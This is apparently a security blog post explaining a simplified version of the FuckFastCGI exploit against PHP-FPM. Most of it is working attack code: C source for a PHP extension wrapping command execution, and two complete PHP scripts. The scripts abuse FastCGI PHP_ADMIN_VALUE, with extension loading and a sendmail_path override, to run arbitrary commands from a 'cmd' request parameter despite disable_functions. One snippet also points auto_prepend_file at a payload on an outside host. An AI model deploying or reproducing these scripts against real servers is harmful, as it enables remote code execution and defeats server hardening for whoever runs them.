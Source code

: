 ```yaml
---
layout: posts
title:  FuckFastCGI made simpler
date:   2023-02-05
categories: stuff
---
```


Let's render unto Caesar the things that are Caesar's, the exploit [FuckFastCGI](https://github.com/w181496/FuckFastcgi) is not mine and is a brilliant one, bypassing `open_basedir` and `disable_functions` by the means of external malicious library loading.

While `open_basedir` can be modified at runtime and turned into `open_basedir = /`, it is not the same regarding `disable_functions`. The latter can only be set in the main `php.ini` and cannot be overriden by a local configuration or programmatically through `ini_set` or `ini_alter`.

To bypass this measure, the exploit sets two other configuration values: `extension` and `extension_dir`. By loading an external library which itself calls the C `system` function, disabled PHP functions are no more a protection.

The C code is as follows (the word `TSRMLS_CC` is commented to make it work with PHP >= 8.0. Uncomment if older):

```c
#include <php.h>
#include "hello.h"

zend_function_entry hello_functions[] = {
    PHP_FE(hello_world, NULL)
    PHP_FE_END
};

zend_module_entry hello_module_entry = {
    STANDARD_MODULE_HEADER,
    PHP_HELLO_EXTNAME,
    hello_functions,
    NULL,
    NULL,
    NULL,
    NULL,
    NULL,
    PHP_HELLO_VERSION,
    STANDARD_MODULE_PROPERTIES,
};

ZEND_GET_MODULE(hello);

PHP_FUNCTION(hello_world) {
    int ret, mode = 1;
    size_t s_len;
    char *s;
    zend_parse_parameters(ZEND_NUM_ARGS() /*TSRMLS_CC*/, "s", &s, &s_len);
    ret = php_exec(mode, s, NULL, return_value);
};

```

This program creates a routine named `hello_world` which is nothing more than a wrapper for `system`, and makes it available to PHP, as soon as the extension is loaded.

In the original exploit, the following values had to be set:

```php
// your extension directory path
$ext_dir_path = '/var/www/app/ext/';

// your extension name
$ext_name = 'hello.so';

// unix socket path or tcp host
$connect_path = 'unix:///var/run/php/php7.2-fpm.sock';

// tcp connection port (unix socket: -1)
$port = -1;

// Don't use this exploit file itself
$filepath = '/var/www/app/index.php';

// your php payload location
$prepend_file_path = 'http://kaibro.tw/gginin2';
```

The principle was to add a dummy `index.php` somewhere on the disk, and to use the directive `auto_prepend_file` to prepend the true payload, which was in turn calling `hello_world`. Problem: executing a different shell command requires a new payload file (in the example, it is a remote payload on a different host. It is made possible thanks to a modification of `allow_url_include`).

Actually, tweaking a little bit the exploit and adapting it based on the code from [here](https://balsn.tw/ctf_writeup/20190323-0ctf_tctf2019quals/#wallbreaker-easy), and we can reduce it to only one PHP and one SO file. Also, the socket path should be updated according to the type of listener:

```php
$client = new FCGIClient("127.0.0.1:9000", -1); // or custom ip:port
//or
$client = new FCGIClient("unix:///var/run/php/php-fpm.sock", -1); //should be a symlink to the real socket file
```

The last part of the script changes, to avoid the need to modify the payload and to repush a file on the disk:

```php
if (isset($_REQUEST['cmd'])) {
    // ---- BEGIN CONFIG
    $ext_dir_path = '/tmp';
    $ext_name = 'hello.so';
    // ---- END CONFIG

    $req = '/'.basename(__FILE__);
    $uri = $req .'?'.'command='.$_REQUEST['cmd'];
    $client = new FCGIClient("127.0.0.1:9000", -1);
    //$client = new FCGIClient("unix:///var/run/php/php-fpm.sock", -1);
    $code = "<?php echo '\$\$';hello_world(\$_REQUEST['command']);?>";
    $php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = php://input";
    $php_admin_value = "extension_dir=" . $ext_dir_path . "\nextension=" . $ext_name;
    $params = array(
        'GATEWAY_INTERFACE' => 'FastCGI/1.0',
        'REQUEST_METHOD'    => 'POST',
        'SCRIPT_FILENAME'   => __FILE__,
        'SCRIPT_NAME'       => $req,
        'QUERY_STRING'      => 'command='.$_REQUEST['cmd'],
        'REQUEST_URI'       => $uri,
        'DOCUMENT_URI'      => $req,
        'PHP_VALUE'         => $php_value,
        'PHP_ADMIN_VALUE'   => $php_admin_value,
        'SERVER_SOFTWARE'   => 'kaibro-fastcgi-rce',
        'REMOTE_ADDR'       => '127.0.0.1',
        'REMOTE_PORT'       => '9985',
        'SERVER_ADDR'       => '127.0.0.1',
        'SERVER_PORT'       => '80',
        'SERVER_NAME'       => 'localhost',
        'SERVER_PROTOCOL'   => 'HTTP/1.1',
        'CONTENT_LENGTH'    => strlen($code)
        );
    try{
        $resp = $client->request($params, $code);
        $idx = strpos($resp, '$$');
        if ($idx !== false){
            echo substr($resp, $idx+2);
        }
    }
    catch(Exception $e){
        echo "If you used the param cmd and it didn't print anything, please try to refresh";
    }
    if (function_exists("shell_exec")){
        echo shell_exec("date");
    }
    else{
        echo "Nope, shell_exec is disabled";
    }
    phpinfo();
}
```

Instead of loading an external payload, the latter is passed as a stream (`php://input`). The GET argument containing the command is forwarded, and passed to `hello_world`.

As shown below, the command `id` can be executed, although the routines are still marked as disabled.

![php_exec1.png](/assets/res/stuff/php_exec1.png)

![php_exec2.png](/assets/res/stuff/php_exec2.png)

## Keep it simple, stupid

Well, there is even easier ... We could simply modify the configuration file related to the MTA, and replace it with our own command:

```php
if (isset($_REQUEST['cmd'])) {
    $cmd = $_REQUEST['cmd'];
    $req = '/'.basename(__FILE__);
    //$client = new FCGIClient("127.0.0.1:9000", -1);
    $client = new FCGIClient("unix:///var/run/php/php-fpm.sock", -1);
    $code = "<?php mail('', '', ''); \$content = file_get_contents('/tmp/out'); if (\$content) echo '\$\$'.\$content; ?>";
    $php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = php://input";
    $php_admin_value = "sendmail_path=$cmd > /tmp/out";
    $params = array(
        'GATEWAY_INTERFACE' => 'FastCGI/1.0',
        'REQUEST_METHOD'    => 'POST',
        'SCRIPT_FILENAME'   => __FILE__,
        'SCRIPT_NAME'       => $req,
        'QUERY_STRING'      => "",
        'REQUEST_URI'       => $req,
        'DOCUMENT_URI'      => $req,
        'PHP_VALUE'         => $php_value,
        'PHP_ADMIN_VALUE'   => $php_admin_value,
        'SERVER_SOFTWARE'   => '80sec/wofeiwo',
        'REMOTE_ADDR'       => '127.0.0.1',
        'REMOTE_PORT'       => '9985',
        'SERVER_ADDR'       => '127.0.0.1',
        'SERVER_PORT'       => '80',
        'SERVER_NAME'       => 'localhost',
        'SERVER_PROTOCOL'   => 'HTTP/1.1',
        'CONTENT_LENGTH'    => strlen($code)
        );
    $resp = $client->request($params, $code);
    $idx = strpos($resp, '$$');
    if ($idx !== false){
        echo substr($resp, $idx+2);
    }
    die();
}
```

Exploit code (original): [https://github.com/w181496/FuckFastcgi](https://github.com/w181496/FuckFastcgi)\
Exploit code (fork): [https://github.com/BorelEnzo/FuckFastcgi](https://github.com/BorelEnzo/FuckFastcgi)